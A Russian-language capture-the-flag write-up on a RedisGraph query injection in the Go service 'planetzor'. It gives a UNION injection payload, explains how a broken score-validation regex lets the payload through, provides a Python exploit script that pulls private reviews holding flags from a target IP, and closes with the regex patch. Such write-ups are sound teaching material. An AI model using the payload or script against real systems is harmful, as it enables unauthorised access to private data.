 # Инъекция в planetzor
## Поиск уязвимости
Сервис написан на Go. Основной файл - main.go
Для работы с базой данных используется файл db/db.go

Одна из самых частых ошибок - инъекции в запросы к базе данных. Посмотрим какие базы данных используются здесь:

![](https://raw.githubusercontent.com/ArturLukianov/StayHomeWriteup/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-50-33.png)

Используется redis и redisgraph. Поищем, не используется ли где сырой запрос в базу данных:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-09-31.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-07-36.png)

Поищем, где используется функция graphQuery():
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-08-03.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-08-14.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-08-27.png)
graphQuery() экранирует двойные кавычки, поэтому отбросим то, где ввод находится между кавычек. Ещё отбросим то, где ввод вообще не используется. Тогда останется только одна функция с сырым запросом, который мы можем эксплуатировать:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-09-31.png)

Посмотрим как мы можем проэксплуатировать запрос:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-32-59.png)

Параметр "planet" экранируется - это нам не подходит

Зато параметр score не экранируется. Попробуем payload.

## Разработка payload

Находим [документацию](https://oss.redislabs.com/redisgraph/commands/). Сделаем UNION инъекцию.

```
MATCH (r:Review {private: FALSE, planet: "planet"}) WHERE r.score = 1 RETURN r UNION MATCH (r:Review)
```
Ограничим вывод публичных записей, они нам не нужны:
```
MATCH (r:Review {private: FALSE, planet: "%s"}) WHERE r.score = 1 RETURN r LIMIT 1 UNION MATCH (r:Review {private: TRUE})
```

Итоговый payload:
```
1 RETURN r LIMIT 1 UNION MATCH (r:Review)
```

## Поиск точки эксплуатации

Мы нашли, что эксплуатировать и как. Осталось найти url и в каком виде передавать параметры:
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-12-37.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-30-40.png)

Параметры передаются в GET запросе и не требуют аутентификации

Тут можно заметить, что параметр score проверятся score с помощью ValidateScore, который мешает эксплуатации

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2019-42-20.png)

## Обход ValidateScore

Регулярное выражение неправильно - оно проверяет на наличие хотя бы одного символа подходящего под [1-5], и такой присутствует в нашем payload. Обойдено.

## Эксплуатация

Протестируем наш payload.
Вначале создадим приватную запись с "флагом":
Проверим, что флаг не отображается публично:
Попробуем использовать наш payload:
Отлично, всё работает!

Сделаем sploit для destructive farm:
```
import requests
import sys

payload = "1 RETURN r LIMIT 1 UNION MATCH (r:Review)"

ip = sys.argv[1]
url = "http://" + ip + ":4000/reviews"
print(requests.get(url, params={'score': payload}).text)
```

##  Патчинг

Для патчинга достаточно починить регулярное выражение:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2019-42-20.png)

`^[1-5]$`
